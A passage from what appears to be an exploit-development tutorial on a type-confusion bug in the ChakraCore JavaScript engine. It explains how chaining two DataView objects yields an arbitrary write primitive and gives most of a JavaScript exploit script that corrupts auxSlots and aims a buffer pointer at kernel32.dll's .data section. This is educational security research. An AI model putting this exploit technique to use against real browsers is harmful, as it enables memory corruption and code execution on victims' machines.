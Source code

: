 If we invoke `setUint32()` on `dataview2`, we do so at an offset of `0`. This is because we are not attempting to corrupt any other objects, we are intending to use `dataview2.setUint32()` in a legitimate fashion. When `dataview2->setUint32()` is invoked, it will fetch the address of the `buffer` from `dataview2` by locating `dataview2+0x38`, dereferencing the address, and attempting to write the value `0x4242424242424242` (as seen above) into the address.

The issue is, however, is that we used a type confusion vulnerability to update `dataview2->buffer` to a _different_ address (in this case an invalid address of `0x4141414141414141`). This is the address `dataview2` will now attempt to write to, which obviously will cause an access violation.

Let's do a test run of an arbitrary write primitive to overwrite the first 8 bytes of the `.data` section of `kernel32.dll` (which is writable) to see this in action. To do so, let's update our `exploit.js` script to the following:

```javascript
// Creating object obj
// Properties are stored via auxSlots since properties weren't declared inline
obj = {}
obj.a = 1;
obj.b = 2;
obj.c = 3;
obj.d = 4;
obj.e = 5;
obj.f = 6;
obj.g = 7;
obj.h = 8;
obj.i = 9;
obj.j = 10;

// Create two DataView objects
dataview1 = new DataView(new ArrayBuffer(0x100));
dataview2 = new DataView(new ArrayBuffer(0x100));

function opt(o, proto, value) {
    o.b = 1;

    let tmp = {__proto__: proto};

    o.a = value;
}

function main() {
    for (let i = 0; i < 2000; i++) {
        let o = {a: 1, b: 2};
        opt(o, {}, {});
    }

    let o = {a: 1, b: 2};

    // Print debug statement
    print("DEBUG");

    opt(o, o, obj);     // Instead of supplying 0x1234, we are supplying our obj

    // Corrupt obj->auxSlots with the address of the first DataView object
    o.c = dataview1;

    // Corrupt dataview1->buffer with the address of the second DataView object
    obj.h = dataview2;

    // Set dataview2->buffer to kernel32.dll .data section (which is writable)
    dataview1.setUint32(0x38, 0x5b3d0000+0xa4000, true);
    dataview1.setUint32(0x3C, 0x00007fff, true);

    // Overwrite kernel32.dll's .data section's first 8 bytes with 0x4141414141414141
```